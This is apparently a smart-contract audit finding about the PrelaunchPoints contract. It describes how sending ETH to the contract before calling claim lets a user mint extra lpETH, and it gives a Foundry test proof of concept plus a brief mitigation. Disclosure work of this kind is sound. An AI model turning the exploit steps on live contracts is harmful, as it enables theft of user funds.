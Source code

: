 ### `PrelaunchPoints::lock, lockFor` allows a users to lock s small amount of LRT token and then force ether into the contract claiming as much lpETH as they want, removing the risk of locking a lot of tokens and braking the 2nd invariant

**Description:**

In the `Prelaunchpoint` the functions `lock` and `lockFor` allow users to lock LRTs or WETH into the contract. After the owners calls `setLoopAddresses` and converts all the ETH, users are able to call the `claim` and `claimAndStake` functions. A user can force ETH into the smart contract and right after call the `claim` function with the LRT Token with a small percentage. Because `claimedAmount` is set to `address(this).balance` this will also get the forced ETH, allowing users to remove the risk of locking a large amount and rather lock a small amount and then force ether to get the desired lpETH.

**Impact:**

1. Allows users to remove the risk of locking a large amount of tokens.
2. Allows users to mint how much ever lpETH they want, as long as they have the capital and a small locked amount of LRT Token.
3. This breaks the 2nd invariant - `Deposits are active up to the lpETH contract and lpETHVault contract are set`

**Proof of Concept:**

1. The user locks a desired amount of an LRT Token
2. Owner set the loop addresses and the 7 days to withdraw pass
3. Owner converts all the ETH, which allows user to claim, claim and stake
4. The user forces ETH into the contract
5. The user calls the `claim` function and gets the lpETH for the forced ETH

Paste this into `PrelaunchPoints.t.sol`

```javascript
function testDepositAndStakeAfterTheClaimStartDate() public {
        uint256 lockAmount = 10;
        address userOne = vm.addr(1);

        lrt.mint(userOne, lockAmount);

        vm.startPrank(userOne);
        lrt.approve(address(prelaunchPoints), lockAmount);
        prelaunchPoints.lock(address(lrt), lockAmount, referral);
        vm.stopPrank();

        // Set Loop Contracts and Convert to lpETH
        prelaunchPoints.setLoopAddresses(address(lpETH), address(lpETHVault));
        vm.warp(prelaunchPoints.loopActivation() + prelaunchPoints.TIMELOCK() + 1);
        prelaunchPoints.convertAllETH();

        vm.warp(prelaunchPoints.startClaimDate() + 1);

        bytes memory data = abi.encodeWithSelector(0x415565b0, address(lrt), ETH, ((lockAmount * 1) / 100));

        vm.deal(userOne, 10);
        vm.prank(userOne);
        (bool success,) = address(prelaunchPoints).call{value: 10}("");
        if (!success) revert("Not Successful");

        uint256 temp = lpETH.balanceOf(address(userOne));
        console.log(temp);

        vm.prank(userOne);
        prelaunchPoints.claim(address(lrt), 1, PrelaunchPoints.Exchange.TransformERC20, data);

        temp = lpETH.balanceOf(address(userOne));
        console.log(temp);
    }
```

**Tools Used**

Manual Review

**Recommended Mitigation:**

1. If the `receive` function is called revert
